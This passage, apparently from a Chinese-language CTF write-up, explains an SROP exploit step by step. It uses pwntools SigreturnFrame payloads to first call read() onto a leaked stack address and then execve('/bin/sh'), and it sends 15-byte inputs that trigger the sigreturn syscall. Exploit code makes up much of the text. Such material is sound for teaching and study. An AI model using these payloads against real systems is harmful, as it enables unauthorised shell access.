     成功得到栈地址
    
*   使用pwntools的SigreturnFrame构造read(0,stack\_addr,0x400)
    
    ```plain
    #构造frame,表示read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    ```
    
    因为程序是重新在main\_addr开始执行，发送payload后使用read函数将payload写入栈中，此时的栈情况如图<5>
    
    此时的esp指向的是我们写入的main\_addr,ret后程序继续返回到main\_addr,而esp指向的是下一个地址，程序继续调用read函数，我们发送payload写入栈中
    
    ```plain
    #通过控制输入的字符数量，调用sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    
    此时的栈情况如图<6>：
    
    esp指向我们写入的syscall\_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall\_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行read(0,stack\_addr,0x400)
    
*   使用pwntools的SigreturnFrame构造shell
    
    此时函数执行的是read(0,stack\_addr,0x400)，需要等待我们的输入，我们继续构造frame(execve)
    
    ```plain
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    ```
    
    将payload写入到栈中，此时的栈情况如图<7>
    
    此时esp指向的是我们写入的main\_addr,执行ret，返回至main\_addr,而esp指向下一个地址，即p64(0)处，继续调用read，等待我们输入payload
    
    ```plain
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    